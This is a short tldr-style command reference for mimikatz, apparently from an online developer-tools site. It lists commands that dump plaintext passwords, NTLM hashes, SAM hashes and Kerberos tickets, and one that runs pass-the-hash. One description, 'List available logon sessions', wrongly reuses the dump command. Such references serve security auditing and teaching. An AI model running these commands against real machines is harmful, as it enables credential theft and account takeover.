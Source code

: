 ```yaml
---
title: "Mimikatz - Extract Windows Credentials | Online Free DevTools by Hexmos"
name: mimikatz
path: /freedevtools/tldr/windows/mimikatz
canonical: "https://hexmos.com/freedevtools/tldr/windows/mimikatz/"
description: "Extract Windows credentials with Mimikatz, a powerful post-exploitation tool. Dump passwords, hashes, and Kerberos tickets. Free online tool, no registration required."
category: windows
keywords:
- windows credential extraction
- mimikatz password dumper
- windows password recovery
- windows hash extraction
- kerberos ticket dump
- local sam database dump
- windows post exploitation
- credential theft windows
- windows security auditing
- windows privilege escalation
features:
- Dump plaintext passwords from memory
- Extract NTLM hashes from Windows
- Export Kerberos tickets to a file
- Manipulate user tokens for privilege escalation
- Dump local SAM database hashes
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# mimikatz

> Interact with Windows credentials, perform credential dumping, token manipulation, and more.
> Requires administrator privileges and typically runs on Windows.
> More information: <https://github.com/gentilkiwi/mimikatz>.

- Run mimikatz in interactive mode:

`mimikatz`

- Enable debug privileges (needed for most operations):

`mimikatz "privilege::debug"`

- List available logon sessions:

`mimikatz "sekurlsa::logonpasswords"`

- Dump plaintext passwords, NTLM hashes, and Kerberos tickets from memory:

`mimikatz "sekurlsa::logonpasswords"`

- Pass-the-Hash with a specific NTLM hash and launch a command:

`mimikatz "sekurlsa::pth /user:{{username}} /domain:{{domain}} /ntlm:{{hash}} /run:{{cmd}}"`

- Dump local SAM database hashes:

`mimikatz "lsadump::sam"`

- Extract Kerberos tickets and export to a file:

`mimikatz "kerberos::list /export"`

- Exit mimikatz:

`exit`
